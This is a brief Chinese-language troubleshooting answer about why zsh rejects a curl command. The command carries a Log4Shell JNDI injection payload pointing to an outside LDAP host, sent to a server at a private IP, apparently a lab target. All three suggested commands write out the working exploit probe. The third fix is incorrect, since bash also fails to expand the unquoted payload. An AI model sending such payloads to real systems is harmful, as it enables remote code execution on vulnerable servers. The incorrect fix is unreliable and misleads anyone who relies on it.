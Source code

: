 这个报错是由于 `zsh` shell 对 `${}` 语法有特殊的解释方式，而 `${jndi:ldap://chloris.check4safe.top}` 被 `zsh` 解释为一个变量或特殊语法，导致 `zsh` 无法识别。

在 `zsh` 中，`${}` 是用于变量扩展或特殊字符处理的语法。因此，直接在命令行中使用 `${jndi:...}` 时，`zsh` 会尝试将其解释为一个变量或特殊语法，但由于 `jndi:...` 不是一个有效的变量或语法，所以会报错

### 解决方法

#### 方法 1：使用单引号包裹参数
将 `${jndi:...}` 用单引号包裹起来，防止 `zsh` 解释它：
```bash
curl -G --data-urlencode 'payload=${jndi:ldap://chloris.check4safe.top}' http://192.168.20.6:23509/hello -vv
```

#### 方法 2：使用双引号并转义 `$`
在双引号中，使用反斜杠 `\` 转义 `$`，防止 `zsh` 解释它：
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
```

#### 方法 3：切换到 `bash` shell
如果不想修改命令，可以临时切换到 `bash` shell，因为 `bash` 对 `${}` 的解释方式与 `zsh` 不同：
```bash
bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
```